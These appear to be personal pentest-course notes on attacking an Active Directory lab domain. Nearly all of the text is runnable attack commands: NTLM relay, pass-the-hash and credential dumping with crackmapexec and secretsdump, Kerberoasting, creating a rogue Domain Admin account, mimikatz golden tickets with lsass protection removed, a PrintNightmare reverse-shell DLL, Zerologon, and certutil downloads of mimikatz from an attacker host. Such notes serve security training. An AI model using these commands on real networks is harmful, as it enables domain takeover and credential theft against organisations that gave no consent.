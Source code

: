 ### Nmap

for smb relay attacks => To find host without smb signing
nmap --script=smb2-security-mode.nse -p445 {targetip}

then starting responder to intercept request to our IP

responder -I eth0 -dvw

now using ntlmrelay to relay to target machine
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

admin hash=> Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::

Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::

Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::

### Gaining shell

using metasploit is also possible but defense picks it up,

so we can use psexec.py

Passthehash
we can use captured hash to authenticate to ldap login
using psexec
impacket-psexec marvel/fcastle@192.168.46.69 -hashes sdfasfsfsdfsdf

### IPv6 Attack

spoffing as DNS server for IPv6 using mitm6 and ntlmrelay to relay to ldap like this

```
impacket-ntlmrelayx -6 -t ldaps://192.168.36.69 -wh faewpad.marvel.local -l lootme
mitm6 -d marvel.local

```

# Post Compromise Enumeration

### Using ldapdomaindump

```
ldapdomaindump 192.168.36.69 -u 'domain/user' -p password
```

### Using Bloodhound

sudo neo4j console
sudo bloodhound
sudo bloodhound-python -d Marvel.local -u fcastle -p Password1 -ns 192.168.34.56 -c all

# Attacking Active Directory: Post-Compromise Attacks:

### Pass Attacks

Spraying captured pass and gathering local hash to everywhere over the network using

crackmapexec smb targetiprange/24 -u fcastle -d MARVEL.local -p Password1

using hash
cracrackmapexec smb 192.168.36.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth

authentication via hash and gathering local SAM hashes
crackmapexec smb 192.168.36.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam

To see Shares shared with user
crackmapexec smb 192.168.36.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --shares

Dumping lsa
crackmapexec smb 192.168.36.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --lsa

see module for eg of smb
crackmapexec smb -L

use that module again like this using "-M" and module name
crackmapexec smb 192.168.36.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M lsassy

Using crackmapexec database cmedb using cmedb in terminal

### Dumping and Cracking Hashes

using secretdump
impacket-secretsdump marvel/fcastle:'Password1'@192.158.242.32

going through every machine to capture dumps like .33 now afrer .32

using hash to do same thing we can use
impacket-secretsdump marvel/fcastle:@192.158.242.32 -hashes asdlaskdlasldlasd

using hashcat to crack the hashes
hashcat -m 1000 has.txt /wordlist

### Kerberoasting

Using
impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 192.168.36.69 -request
we can capture TGS token and crack it by using user credentials
and then cracking hash

### Token Impersonation

go to msfconsole
search psexec
load incognito
list_tokens -u
impersonate_token userbame

like this we can impersonate token to aim for admin account and can create same type of account with admin privilege
but first we need to have shell so we should spawn shell in meterpreter first before entering below commands
using:
net user /add hacker Password! /domain

net group "Domain Admins" hacker /ADD /Domain
now the user "hawkeye" is added with admim privilege

### Attacking GPP/Cpassword

older windows AD version used to encrypt and store password in file names cpassword we can crack this
from metasploit using module smb_enum_gpp

### NTDS.dit Dumping with mimikatz

download mimikatz from github and run mimikatz.exe in victim PC

### Golden Ticket Attack

Golden Ticket means we are able to access all machines in a domain controller by using TGT token
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
sometimes when using this an error occurs: mimikatz # lsadump::lsa /inject /name:krbtgt
ERROR kuhl_m_lsadump_lsa_getHandle ; OpenProcess (0x00000005)
Domain : CHADDUFFEY / S-1-5-21-465565427-3215364919-2731916836
RID : 000001f6 (502)
User : krbtgt
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003

We can get over this using:mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 644

and reenter command again

then we will generate golden ticket using this command and pass it using /ptt:

kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1558675338-2421338585-1465622942 /krbtgt:8964443726f4ea4d0237b2d635dfdf77 /id:500 /ptt

# Using Known Exploits

### CVE-2021-1675 (Print Nightmare)

Making shell.dll using msfvenom to deliver to target:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.36.21 LPORT=5555 -f dll > /opt/shell.dll

Starting msfconsole and using /exploit/multi/handler and run

sharing shell.dll using:
impacket-smbserver share `pwd`

Now, finally copying CVW.py from github and running it
python CVE.py param param to attack it

### CVE-2020-1472 (ZERO-LOgon)

Running this attack in real world pentest could bring down Domain controller so we should get permission before and be more cautious
but should scan dc first if it is vulnerable or not.

lets run zerologon-tester.py
if it is vulnerable then

python CVE-2020-1472-explot.py HYDRA-DC ip

# Post Exploitation

### File Transfer

Using Certutil: certutil.exe -urlcache -f http://12.121.123.13/a.txt file.txt

hosting with python: python -m http.server 80

Navigating through Browser

    FTP: python -m pyftpdlib 21 <= Attacker Machine
    ftp ip

### Pivoting

using Proxychains
using sshuttle
using chisel

certutil.exe -urlcache -f http://192.168.36.21/mimikatz.exe mimikatz.exe

certutil.exe -urlcache -f http://192.168.36.21/mimilib.dll mimilib.dll

certutil.exe -urlcache -f http://192.168.36.21/mimispool.dll mimispool.dll
